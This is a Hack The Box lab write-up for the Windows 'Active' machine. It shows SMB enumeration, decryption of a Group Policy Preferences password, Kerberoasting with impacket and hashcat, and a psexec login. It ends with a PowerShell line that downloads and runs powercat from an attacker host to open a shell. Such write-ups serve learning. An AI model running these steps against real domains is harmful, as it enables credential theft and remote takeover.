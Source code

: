 ```yaml
---
title: "Active - HTB"
categories: [Windows, Easy]
tags: [Easy,Windows,Kerberoasting,Kerberos,AD,SMB]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Active.png
---
```


# Introdution

This box is a Windows Easy. We’ll start enumerate SMB, where the `Replication` share will find. There’re a file that contains a user and a pass encrypted with GPP. After to decrypt the pass, we will do a **Kerberoasting Attack.** We’ll get the hash Administrator user.

**Have a good time!**

## Diagram

```mermaid
graph TD
  Enumeration --> B(Enum_SMB) --> 
  C[/Replication/] --> |GPP| D[User: SVC_TG] --> 
  Exploration --> |Kerberoasting Attack| E(Administrator)
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled.png){: .shadow}

The `active.htb` domain was found, let’s insert in `/etc/hosts`{: .filepath}

## SMB - TCP 139/445

Lets enumerate the SMB using the `smbclient`*.*

```bash
smbclient -N -L //10.10.10.100
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%201.png)

The `Replication` share was found and we can access it.

### Share Replication - SMB

```bash
smbclient -N //10.10.10.100/replication
```

There’re some files interesting.

- ***/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml***

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%202.png)

We have userName and a probable password.

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

> **Senhas GPP**
> 
> Whenever a new Group Policy Preference (GPP) is created, there is an xml file created on the SYSVOL share with this configuration data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before storing it as `cpassword`. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!
> 
> Microsoft released a patch in 2014 that prevented administrators from putting passwords in GPP. But this patch does nothing about any of those breakable passwords that were already there, and as I understand it, pentesters are still regularly encountering them in 2018. For more details, check out this [AD security post](https://adsecurity.org/?p=2288).
> 
{: .prompt-info }

## Decrypting the GPP Password

Since the key is know, I can decrypt the pass. Kali have a tool called `gpp-decrypt` that It’ll this.

`gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

We found the pass for user **active.htb\SVC_TGS** : **GPPstillStandingStrong2k18**

## Enumerating SMB

With the username and password, let's enumerate the smb with the credential.

```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%203.png)

We gain access to three more shares: `NETLOGON, SYSVOL, Users`

### Shares Users - SMB

```bash
smbclient //10.10.10.100/Users -U "active.htb\\SVC_TGS%GPPstillStandingStrong2k18"
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%204.png)

The `Users` share is the directory `C:\Users`{: .filepath}

In `/users/SVC_TGS/Desktop/`{: .filepath}, We found the `user.txt`, which contains a flag. 

# Exploration

## Kerberoasting

We'll use the **active.htb/SVC_TGS**:`GPPstillStandingStrong2k18` credentials to get a list of service usernames that are associated with regular user accounts.

We found a user: Administrator

```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%205.png)

It also gives me the ticket, which I can try to brute-force decrypt to get the user's password:

```bash
cat GetUserSPNs.out
```

Cracking the hash:

```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%206.png)

We found the pass to **Administrator**:`Ticketmaster1968`

### Getting the Shell

With the credencials found, We log through **psexec**:

```bash
impacket-psexec active.htb/administrator@10.10.10.100
```

We have shell root.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Active/Untitled%207.png)

**HABEMUS!!!**

# Post Exploration

## **Spawn Shell**

```powershell
powershell -c iex(new-object system.net.webclient).downloadstring('http://10.10.14.4/powercat.ps1')
```
